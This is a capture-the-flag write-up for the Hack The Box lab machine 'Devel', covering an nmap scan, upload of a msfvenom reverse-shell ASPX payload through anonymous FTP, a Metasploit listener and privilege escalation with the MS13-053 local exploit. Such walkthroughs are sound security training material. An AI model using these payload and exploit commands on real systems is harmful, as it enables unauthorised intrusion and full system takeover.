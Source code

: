 ```yaml
---
title: "HTB Devel"
date: 2023-07-18T07:17:05Z
draft: false
---
```


This is my writeup for the HTB Machine [Devel](https://app.hackthebox.com/machines/Devel)

## Info
---
- my os: Kali 2023.2
- my ip: 10.10.14.6
- machine ip: 10.10.10.5

## Enumeration
---
```
$ nmap -sV -sC 10.10.10.5 -p-
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-18 10:45 UTC
Nmap scan report for 10.10.10.5
Host is up (0.048s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.24 seconds

```
key takeaways:
- there is a ftp-server on port 21 and it allows anonymous login
- there is an iis web-server on port 80

It seems like the ftp is pointing to `c://inetpub//wwwroot` where the files for the web-server a stored. 
Let's confirm this by surfing to `http://10.10.10.5/welcome.png`. Bingo!

## Gaining Access
---
Most likely we can upload files via ftp so let's craft a payload for a reverse shell via msfvenom:
``` 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.6 LPORT=4444 -f aspx > msfshell.aspx
```
Afterwards we upload the payload via ftp:
```
$ ftp anonymous@10.10.10.5
put msfshell.aspx
```
Before we run the aspx file, we need a listener on the attacker machine:
```
$ msfconsole
msf6 > use multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.6
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```
Now we can execute the aspx by surfing to `http://10.10.10.5/msfshell.aspx`.
We should have a meterpreter session now :)
```
meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
```
## Privilege Escalation
---
Because i'm lazy i'll use `local_exploit_suggester` by running
```
meterpreter > run post/multi/recon/local_exploit_suggester 
```

I'll go with `windows/local/ms13_053_schlamperei`
```
msf6 > use windows/local/ms13_053_schlamperei
msf6 exploit(windows/local/ms13_053_schlamperei) > set session 1
msf6 exploit(windows/local/ms13_053_schlamperei) > set lhost 10.10.14.6
msf6 exploit(windows/local/ms13_053_schlamperei) > run
```
and we are root :)
```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
Now we just have to find the wanted flags:
```
meterpreter > search -f user.txt
Found 1 result...
=================

Path                             Size (bytes)  Modified (UTC)
----                             ------------  --------------
c:\Users\babis\Desktop\user.txt  34            2023-07-18 08:59:08 +0000

meterpreter > search -f root.txt
Found 1 result...
=================

Path                                     Size (bytes)  Modified (UTC)
----                                     ------------  --------------
c:\Users\Administrator\Desktop\root.txt  34            2023-07-18 08:59:08 +0000

```

Happy hacking :)
